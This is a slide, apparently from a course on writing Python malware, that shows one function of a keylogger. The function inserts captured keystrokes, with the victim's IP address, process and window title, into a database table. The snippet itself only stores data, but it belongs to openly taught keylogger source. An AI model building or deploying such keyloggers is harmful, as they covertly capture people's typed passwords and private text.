

Python Malwares (cont.)
Writing a Keylogger (cont.)
Next, we will write a function to insert the keystrokes to the database:
def insert_keylog(conn, ip_addr, exec_name, process_id, window_title, keys):
    sql = """INSERT INTO keylogger_results(
                ip_address,
                executable_name,
                process_id,
                window_title,
                keys)
              VALUES(?, ?, ?, ?, ?)"""
    try:
        c = conn.cursor()
        c.execute(sql, (ip_addr, exec_name, process_id, window_title, keys))
        conn.commit()
        return c.lastrowid
    except Exception as e:
        print(e)
142